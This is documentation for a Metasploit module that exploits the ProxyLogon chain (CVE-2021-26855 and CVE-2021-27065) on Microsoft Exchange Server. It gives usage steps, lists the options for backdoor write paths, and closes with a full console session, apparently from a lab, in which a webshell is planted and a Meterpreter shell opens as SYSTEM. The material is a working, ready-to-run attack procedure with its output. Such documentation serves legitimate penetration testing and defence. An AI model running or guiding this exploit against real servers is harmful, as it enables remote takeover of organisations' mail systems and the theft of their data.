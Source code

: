 ## Vulnerable Application

CVE-2021-28855 is a pre-authentication SSRF (Server Side Request Forgery) which allows an attacker to
bypass authentication by sending specially crafted HTTP requests. This vulnerability is part of an attack
chain used to perform an RCE (Remote Code Execution).

CVE-2021-27065 is a post-auth arbitrary-file-write vulnerability to get code execution and the second part
of the ProxyLogon attack chain.

This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

This module exploit a vulnerability on Microsoft Exchange Server that allows an attacker bypassing the
authentication, impersonating as the admin (CVE-2021-26855) and write arbitrary file (CVE-2021-27065) to
get the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft
Exchange Server.

All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/exchange_proxylogon_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `run`

## Options

### EMAIL

A known email address for this organization.

### METHOD

HTTP Method to use for the check (only). Default: POST

### UseAlternatePath

Use the IIS root dir as alternate path. Default: false

## Advanced Options

### BackendServerName

Force the name of the backend Exchange server targeted. Default: Automatic

If not set, the automatic method will use an RPC call to detect the backend server FQDN. This is required because the
kerberos-authenticated SSRF can only be sent when the FQDN is known.

### ExchangeBasePath

The base path where Exchange is installed. Default: C:\Program Files\Microsoft\Exchange Server\V15

### ExchangeWritePath

The path where you want to write the backdoor. Default: owa\auth

You can for example, define to: ecp\auth

### IISBasePath

The base path where IIS wwwroot directory is. Default: C:\inetpub\wwwroot

### IISWritePath

The path where you want to write the backdoor. Default: aspnet_client

### MapiClientApp

This is MAPI client version sent in the request.

### MaxWaitLoop

Max counter loop to wait for OAB Virtual Dir reset. Default: 30

## Known issues

1. With `cmd/windows/adduser` payload, you may need to change the password because the default password does may
not meet Microsoft Windows complexity requirements.
2. Depending on the payload used, two `cmd.exe` processes remain alive on the server. If this is the case, you cannot
make another attempt if they are not killed.

## Scenarios

```
msf6 exploit(windows/http/exchange_proxylogon_rce) > options 

Module options (exploit/windows/http/exchange_proxylogon_rce):

   Name              Current Setting         Required  Description
   ----              ---------------         --------  -----------
   EMAIL             TestUserDA@adlab.local  yes       A known email address for this organization
   METHOD            POST                    yes       HTTP Method to use for the check (Accepted: GET, POST)
   Proxies                                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.49.58           yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             443                     yes       The target port (TCP)
   SRVHOST           0.0.0.0                 yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT           8080                    yes       The local port to listen on.
   SSL               true                    no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                                   no        The URI to use for this exploit (default is random)
   UseAlternatePath  false                   yes       Use the IIS root dir as alternate path
   VHOST                                     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     192.168.49.58     no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows Powershell


msf6 exploit(windows/http/exchange_proxylogon_rce) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/http/exchange_proxylogon as check
[+] https://192.168.49.58:443 - The target is vulnerable to CVE-2021-26855.
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable.
[*] https://192.168.49.58:443 - Attempt to exploit for CVE-2021-26855
[*] https://192.168.49.58:443 - Retrieving backend FQDN over RPC request
[*] Internal server name (srv02.adlab.local)
[*] https://192.168.49.58:443 - Sending autodiscover request
[*] Server: f652b961-f28e-448f-a8c6-5ff447ff06dd@adlab.local
[*] LegacyDN: /o=ExchangeLab/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=536cfe04ed60470a9a06efe4dfceebf6-Domain admin
[*] https://192.168.49.58:443 - Sending mapi request
[*] SID: S-1-5-21-1051242124-2374699599-3566640746-1113 (TestUserDA@adlab.local)
[*] https://192.168.49.58:443 - Sending ProxyLogon request
[*] Try to get a good msExchCanary (by patching user SID method)
[*] Try to get a good msExchCanary (without correcting the user SID)
[*] ASP.NET_SessionId: 39a0877e-e375-4f8f-b0dd-91dd2a57b2a8
[*] msExchEcpCanary: UFktnukJHk-HpS5vFKa0S7atYvxM9NgI9yo0dsMXgwN8vT1lu_YEmgGvWJdOoBycjlxjgzb95A4.
[*] OAB id: 9b86fdec-7db0-4335-b207-a80596c524af (OAB (Default Web Site))
[*] https://192.168.49.58:443 - Attempt to exploit for CVE-2021-27065
[*] Preparing the payload on the remote target
[*] Writing the payload on the remote target
[!] Waiting for the payload to be available
[+] Yeeting windows/x64/meterpreter/bind_tcp payload at 192.168.49.58:443
[*] Started bind TCP handler against 192.168.49.58:4444
[*] Sending stage (200262 bytes) to 192.168.49.58
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\TgnqKA.aspx
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 192.168.49.58:4444) at 2021-03-29 09:59:17 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : SRV02
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : ADLAB
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter >
```
